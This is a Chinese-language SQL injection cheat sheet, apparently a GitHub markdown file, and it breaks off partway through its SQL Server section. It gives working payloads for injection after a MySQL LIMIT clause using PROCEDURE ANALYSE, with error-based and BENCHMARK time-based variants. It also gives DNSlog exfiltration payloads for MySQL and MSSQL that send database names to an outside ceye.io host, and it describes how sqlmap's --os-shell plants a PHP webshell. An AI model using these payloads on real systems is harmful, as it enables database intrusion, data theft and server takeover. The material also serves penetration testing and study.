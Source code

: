 ### Mysql下Limit注入方法

此方法适用于MySQL 5.x中，在limit语句后面的注入 
在LIMIT后面可以跟两个函数，PROCEDURE 和 INTO，INTO除非有写入shell的权限，否则是无法利用的，那么使用**PROCEDURE**函数能否注入呢？
```plsql
mysql> SELECT field FROM table where id > 0 ORDER BY id LIMIT 1,1 PROCEDURE ANALYSE(1); 
ERROR 1386 (HY000): Can't use ORDER clause with this procedure

ANALYSE可以有两个参数：

mysql> SELECT field FROM table where id > 0 ORDER BY id LIMIT 1,1 PROCEDURE ANALYSE(1,1); 
ERROR 1386 (HY000): Can't use ORDER clause with this procedure

但是立即返回了一个错误信息： 
mysql> SELECT field from table where id > 0 order by id LIMIT 1,1 procedure analyse((select IF(MID(version(),1,1) LIKE 5, sleep(5),1)),1);
ERROR 1108 (HY000): Incorrect parameters to procedure 'analyse'


sleep函数肯定没有执行，可以攻击的方式： 
mysql> SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1); 
ERROR 1105 (HY000): XPATH syntax error: ':5.5.41-0ubuntu0.14.04.1'


如果不支持报错注入的话，还可以基于时间注入：
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
直接使用sleep不行，需要用BENCHMARK代替。 
```


### Sql 注入无回显，利用 DNSlog带出
```basic
1. 没有回显的情况下，一般编写脚本，进行自动化注入。但与此同时，由于防火墙的存在，容易被封禁IP，可以尝试调整请求频率，有条件的使用代理池进行请求。

2. 此时也可以使用 DNSlog 注入，原理就是把服务器返回的结果放在域名中，然后读取 DNS 解析时的日志，来获取想要的信息。

3. Mysql 中利用 load_file() 构造payload

‘ and if((select load_file(concat(‘\\\\’,(select database()),’.xxx.ceye.io\\abc’))),1,0)# 

4. Mssql 下利用 master..xp_dirtree 构造payload

DECLARE @host varchar(1024);SELECT @host=(SELECT db_name())+’.xxx.ceye.io’;EXEC(‘master..xp_dirtree”\’+@host+’\foobar$”‘);
```
### sqlmap --os-shell原理
#### mysql
**执行条件**
（1）网站必须是root权限
（2）攻击者需要知道网站的绝对路径
（3）GPC为off，php主动转义的功能关闭
**原理**
用into outfile函数将一个可以用来上传的php文件写到网站的根目录下，然后再用此文件上传了一个php马，然后执行命令，退出时删除shell。
#### sqlserver
必要条件：
